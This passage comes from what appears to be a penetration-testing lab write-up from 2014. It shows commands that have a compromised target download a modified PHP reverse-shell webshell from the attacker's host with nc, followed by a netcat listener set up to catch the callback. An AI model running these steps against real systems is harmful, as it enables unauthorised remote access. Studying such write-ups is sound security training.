 First, I copied /usr/share/webshells/php/php-reverse-shell.php to /var/www/r.txt. I modified the file to connect to port 443 on my machine's IP address. Next, I ran the following command on the target:

```
printf "GET http://192.168.1.128/r.txt HTTP/1.0\r\n\r\n" > get.txt
```

![](/images/2014-04-08/05.png)

Now it was a matter of redirecting that file to nc:

```
nc 192.168.1.128 80 < get.txt > r.php
```

A quick check in /var/log/apache2/access.log showed that the target downloaded the file:

```
192.168.1.159 - - [08/Apr/2014:11:40:09 -0400] "GET http://192.168.1.128/r.txt HTTP/1.0" 200 5775 "-" "-"
192.168.1.159 - - [08/Apr/2014:11:40:09 -0400] "GET http://192.168.1.128/r.txt HTTP/1.0" 200 5775 "-" "-"
```

Almost there. I setup a nc listener on my machine to listen on port 443 and loaded up r.php on the target to receive my reverse shell:
